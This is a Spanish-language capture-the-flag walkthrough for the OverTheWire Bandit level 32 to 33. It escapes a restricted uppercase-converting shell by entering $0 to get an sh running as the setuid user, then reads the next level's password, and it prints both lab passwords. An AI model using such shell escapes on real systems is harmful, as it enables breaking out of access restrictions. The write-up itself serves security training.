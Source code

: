 # Level 32 to Level 33

## Objetivo
After all this `git` stuff its time for another escape. Good luck!

## Datos de acceso al nivel
Host: bandit.labs.overthewire.org  
Port: 2220
Username: bandit32
Password: rmCBvG56y58BXzv98yZGdO7ATVL5dW8y
```bash
ssh bandit32@bandit.labs.overthewire.org -p 2220
```



## Solución
Al entrar nos damos cuenta que no es un shell normal, sino que todas las entradas las transforma a mayúsculas. Introducimos $0 para iniciar un shell sh y ejecutar comandos normalmente.
```
>> ls -la
sh: 1: LS: not found
>> $0
$ whoami
bandit33
$ ls -la
total 36
drwxr-xr-x  2 root     root      4096 Feb 21 22:03 .
drwxr-xr-x 70 root     root      4096 Feb 21 22:04 ..
-rw-r--r--  1 root     root       220 Jan  6  2022 .bash_logout
-rw-r--r--  1 root     root      3771 Jan  6  2022 .bashrc
-rw-r--r--  1 root     root       807 Jan  6  2022 .profile
-rwsr-x---  1 bandit33 bandit32 15128 Feb 21 22:03 uppershell
$ cat /etc/bandit_pass/bandit33
odHo63fHiFqcWWJG9rLiLDtPm45KzUKy
$
```

## Notas adicionales


## Referencias

